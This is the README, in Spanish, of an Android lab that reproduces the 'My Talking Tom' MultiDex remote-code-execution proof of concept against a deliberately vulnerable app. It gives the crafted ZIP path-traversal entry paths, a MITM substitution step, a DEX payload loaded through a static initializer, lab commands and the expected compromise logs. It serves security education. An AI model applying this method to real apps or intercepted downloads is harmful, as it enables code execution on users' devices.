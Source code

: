 # RCE Lab - My Talking Tom PoC Replication

## Overview

Este laboratorio replica **exactamente** la vulnerabilidad del PoC "My Talking Tom" que utiliza:

- **Path traversal ZIP** para colocar archivos maliciosos automáticamente
- **MultiDex 1.0.1** que carga automáticamente `classes2.zip` desde `code_cache/secondary-dexes/` (
  Dalvik ≤ API 20)
- **DexClassLoader explícito** para cargar payload en Android moderno (ART ≥ API 21)
- **Static initializer** en payload DEX para ejecución automática al cargar la clase

## Compatibilidad Android

### Dalvik (API ≤ 20) - Vector Original

- **MultiDex 1.0.1** funciona normalmente
- Auto-carga `classes2.zip` desde `secondary-dexes/`
- Requiere reinicio de app para activar payload

### ART (API ≥ 21) - Vector Moderno

- **MultiDex 1.0.1** se auto-deshabilita con mensaje:
  ```
  I MultiDex: VM has multidex support, MultiDex support library is disabled
  ```
- **DexClassLoader** carga payload inmediatamente después de path traversal
- **No requiere reinicio** - RCE inmediato

## Arquitectura del Ataque

```text
           ┌─────────┐                                     ┌───────────────┐
           │  MITM   │─── inyecta 2 entradas con traversals ─▶ /data/data/ │
  legit    │ script  │                                         com.app.lab. │
Creative ─▶│ (zip)   │── busybox  → …/files/busybox            rce/         │
  .zip     └─────────┘── classes2.zip → …/code_cache/…         …            │
                                                               └─────────────┘
                         ▼                                        ▲
                    AdUpdateService                               │
                  descomprime el ZIP                             │
                         │                                       │
                         ▼                                       │
                ┌─────────────────┐                             │
                │ Detección OS:   │                             │
                │ Dalvik ≤ API 20 │ ──── MultiDex auto-load ────┘
                │ ART ≥ API 21    │ ──── DexClassLoader explícito
                └─────────────────┘       (inmediato)
```

## Comandos Rápidos

```bash
# 1. Construir exploit bundle con path traversal
./build_payload.sh

# 2. Servir exploit bundle
cd payload/build && python3 -m http.server 8000 &

# 3. Setup dispositivo Android (emulador)
adb reverse tcp:8000 tcp:8000

# 4. Instalar aplicación vulnerable
./gradlew installDebug

# 5. Iniciar aplicación (descarga automática del exploit)
adb shell am start -n com.app.lab.rce/.MainActivity

# 6. Reiniciar para activar MultiDex auto-load
adb shell am force-stop com.app.lab.rce
adb shell am start -n com.app.lab.rce/.MainActivity

# 7. Verificar compromiso
adb shell cat /data/data/com.app.lab.rce/files/pwned.txt
```

## Componentes Técnicos

### 1. Exploit Bundle (`exploit_bundle.zip`)

Contiene dos entradas con path traversal:

- `../../../../data/data/com.app.lab.rce/files/busybox` (ejecutable)
- `../../../../data/data/com.app.lab.rce/code_cache/secondary-dexes/com.app.lab.rce-classes2.zip`

### 2. Aplicación Vulnerable

- **MultiDex 1.0.1**: Carga automáticamente ZIPs desde `secondary-dexes/` (solo Dalvik)
- **DexClassLoader**: Carga explícita para compatibilidad ART (API 21+)
- **AdUpdateService**: Descarga, extrae ZIPs y ejecuta payload inmediatamente
- **RCEApplication**: Custom Application con `MultiDex.install()`

### 3. Payload Malicioso

- **Solo 15 líneas**: Payload extremadamente simple y directo
- **Static initializer**: Se ejecuta automáticamente al cargar la clase
- **Evidencia simple**: Crea `/data/data/com.app.lab.rce/files/pwned.txt` con fecha y UID
- **Sin dependencias**: No requiere Context ni librerías Android

### 4. MITM Script (Opcional)

- **Sustitución directa**: Reemplaza cualquier ZIP descargado por `exploit_bundle.zip`
- **Filtro inteligente**: Solo intercepta archivos `.zip` con magic bytes `PK`
- **Simple y efectivo**: 40 líneas vs 135 líneas anterior

## Archivos Clave

```
├── build_payload.sh              # Construye exploit_bundle.zip
├── app/src/main/java/com/app.lab/rce/
│   ├── RCEApplication.kt          # Custom Application (MultiDex)
│   ├── AdUpdateService.kt         # Descarga, extrae y carga payload
│   └── MainActivity.kt            # Inicia servicio automático
├── payload/src/pwn/Shell.java     # Payload con static initializer
└── mitmproxy/inject_payload.py    # MITM para inyección (opcional)
```

## Indicadores de Compromiso

### Logs Esperados (ART API 21+)
```
D VungleService: 💥 MY TALKING TOM POC: ZIP extraído con path traversal
D VungleService: 📂 Archivos colocados automáticamente en:
D VungleService:    - /files/busybox (executable)
D VungleService:    - /code_cache/secondary-dexes/classes2.zip
D VungleService: 🚀 Cargando DEX: com.app.lab.rce-classes2.zip
E VungleService: 💀 PAYLOAD CARGADO: pwn.Shell
E VungleService: 🔴 SISTEMA COMPROMETIDO - RCE EJECUTADO
```

### Logs Esperados (Dalvik API ≤ 20)

```
I MultiDex: Installing application
I MultiDex: VM has multidx support = false
# Payload se ejecuta en próximo reinicio
```

### Archivos Creados

- `/data/data/com.app.lab.rce/files/pwned.txt` - Evidencia principal del compromiso
- `/data/data/com.app.lab.rce/files/busybox` (ejecutable)
- `/data/data/com.app.lab.rce/code_cache/secondary-dexes/com.app.lab.rce-classes2.zip`

## Verificar Compromiso

```bash
# Verificar archivo de evidencia
adb shell cat /data/data/com.app.lab.rce/files/pwned.txt
# Ejemplo output: PWNED Mon Jun 23 21:16:45 GMT 2025 UID=uid=10XXX(com.app.lab.rce) gid=10XXX(com.app.lab.rce)
```

## Consideraciones de Seguridad

⚠️ **Solo para uso educativo y de investigación**

- Usar únicamente en entornos controlados
- No ejecutar en dispositivos de producción
- Respetar las leyes Locales de ciberseguridad

## Referencias

- [NowSecure - MultiDex RCE Vulnerability](https://www.nowsecure.com/blog/2017/06/15/a-pattern-for-remote-code-execution-using-arbitrary-file-writes-and-multidex-applications/)
- [My Talking Tom PoC](https://github.com/nowsecure/android-rce-multidex-and-zip-files)
- [Android MultiDex Documentation](https://developer.android.com/studio/build/multidex)
